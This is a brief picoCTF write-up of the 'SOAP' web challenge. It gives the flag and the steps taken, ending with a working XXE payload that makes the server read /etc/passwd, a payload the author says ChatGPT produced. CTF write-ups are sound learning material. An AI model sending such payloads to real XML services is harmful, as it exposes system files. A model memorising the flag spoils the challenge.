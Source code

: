 # Web Exploitaton

## SOAP

### Flag
* flag: picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
### Thought Process
* the hint showed its an XXE vuln
* so i went to inspect, found the js and html files
* the post link is link of url/data
* also when you press a button, an xml entry is created and the format can be seen in the network tab
* ```<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>```
* from this i created a payload using chatgpt
* posted it using curl onto the endpoint
### Steps Taken
* inspect the html and js files
* find the endpoint for xml injection
* find template for xml injection
* create a payload similar to input
* deploy payload using curl to the endpoint
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>
```


